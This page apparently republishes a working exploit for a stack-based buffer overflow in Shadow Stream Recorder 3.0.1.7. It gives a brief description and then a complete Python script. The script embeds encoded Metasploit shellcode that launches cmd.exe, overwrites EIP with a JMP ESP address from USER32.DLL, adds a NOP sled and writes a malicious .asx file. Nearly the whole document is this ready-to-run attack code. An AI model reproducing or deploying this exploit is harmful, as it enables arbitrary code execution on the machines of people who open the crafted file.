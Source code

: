 Shadow Stream Recorder .asx File Parsing Buffer Overflow
========================================================
date: 02/Sep/2012
summary: Shadow Stream Recorder EIP overflow via a jmp esp overwrite.
tags: exploit, buffer overflow

The Shadow Stream Recorder version 3.0.1.7 has a classic stack-based
buffer overflow vulnerability. Processing specially-crafted Advanced
Stream Redirector (ASX) media files triggered a memory corruption error.
This flaw could be exploited to gain arbitrary code execution. The
exploit for this vulnerability is a vanilla EIP overwrite and has been
first documented at [EDB:
11957](http://www.exploit-db.com/exploits/11957/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb11957.asx"

# msfpayload windows/exec CMD=cmd.exe R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 226 (iteration=1)

cmmd = ("\xda\xd5\xb8\x4f\xc1\x95\xae\xd9\x74\x24\xf4\x5a\x29\xc9" +
"\xb1\x32\x83\xc2\x04\x31\x42\x16\x03\x42\x16\xe2\xba\x3d" +
"\x7d\x27\x44\xbe\x7e\x58\xcd\x5b\x4f\x4a\xa9\x28\xe2\x5a" +
"\xba\x7d\x0f\x10\xee\x95\x84\x54\x26\x99\x2d\xd2\x10\x94" +
"\xae\xd2\x9c\x7a\x6c\x74\x60\x81\xa1\x56\x59\x4a\xb4\x97" +
"\x9e\xb7\x37\xc5\x77\xb3\xea\xfa\xfc\x81\x36\xfa\xd2\x8d" +
"\x07\x84\x57\x51\xf3\x3e\x56\x82\xac\x35\x10\x3a\xc6\x12" +
"\x80\x3b\x0b\x41\xfc\x72\x20\xb2\x77\x85\xe0\x8a\x78\xb7" +
"\xcc\x41\x47\x77\xc1\x98\x80\xb0\x3a\xef\xfa\xc2\xc7\xe8" +
"\x39\xb8\x13\x7c\xdf\x1a\xd7\x26\x3b\x9a\x34\xb0\xc8\x90" +
"\xf1\xb6\x96\xb4\x04\x1a\xad\xc1\x8d\x9d\x61\x40\xd5\xb9" +
"\xa5\x08\x8d\xa0\xfc\xf4\x60\xdc\x1e\x50\xdc\x78\x55\x73" +
"\x09\xfa\x34\x1e\xcc\x8e\x43\x67\xce\x90\x4b\xc8\xa7\xa1" +
"\xc0\x87\xb0\x3d\x03\xec\x4f\x74\x09\x45\xd8\xd1\xd8\xd7" +
"\x85\xe1\x37\x1b\xb0\x61\xbd\xe4\x47\x79\xb4\xe1\x0c\x3d" +
"\x25\x98\x1d\xa8\x49\x0f\x1d\xf9\x2a\xc2\x85\x2c\xc9\x64" +
"\x23\x31")

junk = "A"*26085
neip = pack ('<I', 0x7E4456F7) # 7E4456F7  FFE4  JMP ESP USER32.DLL
nops = "\x90"*56

sploit = junk+neip+nops+cmmd

try:
    handle = open (file, 'w')
    handle.write (sploit)
    handle.close ()
    print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
    print "[-] exception!"
```
